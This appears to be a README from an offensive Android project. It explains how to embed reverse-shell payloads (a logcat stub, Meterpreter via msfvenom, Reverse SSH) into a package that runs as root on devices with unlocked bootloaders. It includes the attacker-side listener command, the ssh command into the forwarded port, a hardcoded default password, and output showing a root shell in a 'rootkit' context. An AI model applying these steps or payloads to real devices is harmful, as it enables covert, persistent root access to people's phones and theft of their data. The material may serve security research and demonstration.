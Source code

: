 ## Custom payloads

This directory is for various payloads to embed in package.

To use a payload, simply put an executable into `revshell/{arch}/` as `revshell`. 
It is not required to place payloads for all archs: those where `revshell` is absent will use default payload.

Payloads tested:
* Simple logcat writer (default) ([link](https://github.com/LuigiVampa92/unlocked-bootloader-backdoor-demo/tree/master/revshell))
* Meterpreter (static, aarch64) - _limited functionality_
* **Reverse SSH** (upx, aarch64) ([link](https://github.com/Fahrj/reverse-ssh)) - _**Recommended**_

#### Logcat writer

Stock payload that simply writes stuff to logcat:
```
$ adb logcat | grep revshell
03-18 00:34:46.884  3197  3197 D revshell: Start successfull!
03-18 00:34:46.885  3197  3197 D revshell: Signals are set to ignore
03-18 00:34:46.885  3197  3197 D revshell: Hey I'm a revshell process!
03-18 00:34:46.885  3197  3197 D revshell: My PID -- 3197
03-18 00:34:46.885  3197  3197 D revshell: My parent PID -- 2381
03-18 00:34:46.885  3197  3197 D revshell: My UID -- 0
03-18 00:34:46.885  3197  3197 D revshell: Awaiting encrypted FS decryption now...
03-18 00:34:51.311  3197  3197 D revshell: FS has been decrypted!
03-18 00:34:51.311  3197  3197 D revshell: Starting reverse shell now
03-18 00:34:56.312  3197  3197 D revshell: tick ! 10 seconds since process started
03-18 00:35:01.312  3197  3197 D revshell: tick ! 15 seconds since process started
```

#### Meterpreter

Use `msfvenom` to generate your payload. You typically want _aarch64/_ or _arm/_ static versions (**not _android/_**). 
Note that staged version might not work reliably, so better use static instead.

Make sure you set LHOST and LPORT in _msfvenom_ command line.

However, even static build may have very limited functionality because of compatibility issues with Android devices.

#### Reverse SSH

This payload ([link](https://github.com/Fahrj/reverse-ssh)) has better compatibility with Android and seems to work reliably, though it might be a bit tricky to use. 
`upx_reverse-ssh-armv8-x64` version is recommended. 

For reverse shell, set LHOST and LPORT in `config.prop`. Otherwise it will act as bind shell (default port: 31337).

Launch _ReverseSSH_ listener on attacker machine:
```
$ ./upx_reverse-sshx64 -l -v -p 31337
```

Once target device boot is complete and device is decrypted, a new connection should pop up:
```
2024/03/18 20:34:30 Successful authentication with password from reverse@192.168.0.11:42967
2024/03/18 20:34:30 Attempt to bind at 127.0.0.1:8888 granted
2024/03/18 20:34:30 New connection from 192.168.0.11:42967: ERROR on localhost reachable via 127.0.0.1:8888
```

Then just _ssh_ into local port:
```
$ ssh -p 8888 localhost sh -i
```
(use default password `letmeinbrudipls`)

... and you're there.
```
sh: can't find tty fd: No such device or address
sh: warning: won't have full job control
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:rootkit:s0
```

##### Reference: [Running ReverseSSH as reverse shell](https://github.com/Fahrj/reverse-ssh?tab=readme-ov-file#running-reversessh-as-reverse-shell)